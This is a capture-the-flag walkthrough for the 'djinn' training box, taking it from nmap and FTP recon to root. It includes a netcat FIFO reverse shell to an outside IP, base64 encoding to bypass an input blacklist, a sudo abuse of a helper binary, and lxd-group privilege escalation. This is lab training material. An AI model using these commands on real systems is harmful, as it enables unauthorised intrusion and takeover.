








# djinn
> Intermediate level vulnerable box.

# ⬇ Start ⬇
## Recon
### Nmap
```
sudo nmap -A -T4 -p- 10.10.214.152
```
[nmap_log](nmap.txt)  
Open ports are:
- 21 - ftp with anonymous login
- 22
- 1337 - some game
- 7331 - web 

### Ftp
We got 3 files. `creds.txt` - creds for nitu `nitu:81299`,  
`game.txt` - game on port `1337`  
and `message.txt` - a message about some guy went for a holiday and some other needs to take care of his/her work.  


### Dirsearch
  
We got code execution in the dir!!!  
  
For example if we type `id` and press execute we got the *403 page* BUT there is a *lil black text* says we are **www-data**!  


## Getting a shell
Lets exploit this ***RCE***!  
We just need a reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.22.204 9998 >/tmp/f
```
We got *Wrong choice of words* that means some chars are blacklisted
Blacklisted chars are: `.`, `/`, `$` and `*`

We have to ***bypass*** the blacklist!  
We can encrypt our revshell as base64 and just echo on the box then decrypt then just execute.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.22.204 9998 >/tmp/f" | base64

cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuOC4yMi4yMDQgOTk5OCA+L3RtcC9mCg==
```
Now we have to enter it to the wish textbox:
```
echo "cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuOC4yMi4yMDQgOTk5OCA+L3RtcC9mCg==" | base64 -d | bash
```
And we got the shell as `www-data`

## Going further, getting user
Look for interesting things in the files :D  
We got the *CREDS* variable from from the source!  
Update the shell to be able to use su:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Just su to nitish with the pw we got!  
  
And we got the user flag from `/home/nitish/user.txt`  

## Privesc to sam
More recoooon!!  
  
Nah we dont have to do too much just run `sudo -l` ;)  
  
So we can run this as user `sam` without any password!!
```
sudo -u sam /usr/bin/genie
```
Lets see a man page first or a help:
```
man genie
```
or `sudo -u sam /usr/bin/genie -h`
In the man page we can see an extra option `-cmd`  
Lets try it!
```
sudo -u sam /usr/bin/genie -cmd asd
```
  
AAAAnd we got a shell as **sam**  

## Privesc to root
Get a normal shell with the *python pty* trick!  
Then just `sudo -l` as always :D  


```
sudo -u root /root/lago
```
Nothing interesting. This program is just roasting us xD

### Lets run a linenum!
We got in the last line that we have the lxd group and maybe we can do some nasty things with it  
So head over to [exploit-db](exploit-db.com) and search for lxd!  
We got only [one](https://www.exploit-db.com/exploits/46978)  
Lets try it ! :D  

### Getting apt with docker :D
Just pull ubuntu and execute `bash build-alpine` there.
```
docker pull ubuntu
sudo docker run -it --rm -v $(pwd):/data library/ubuntu /bin/bash

cd data
bash build-alpine
```
Now we have the `alpine*.tar.gz` file for the exploit.

### Exploiting
Upload the `.tar.gz` file to the box and run the exploit!
```
./exploit.sh -f alpine-v3.11-x86_64-20200227_1505.tar.gz
```
We got some permission errors so go back to **nitish's** profile and chmod 777 everything in `/home/nitish/.config`
```
su nitish
cd ~
chmod -R 777 .config
exit
```
Just run the exploit:
```
./exploit.sh -f alpine-v3.11-x86_64-20200227_1505.tar.gz
```
  


# Got root and the root flag from `/mnt/root/root/proof.sh`

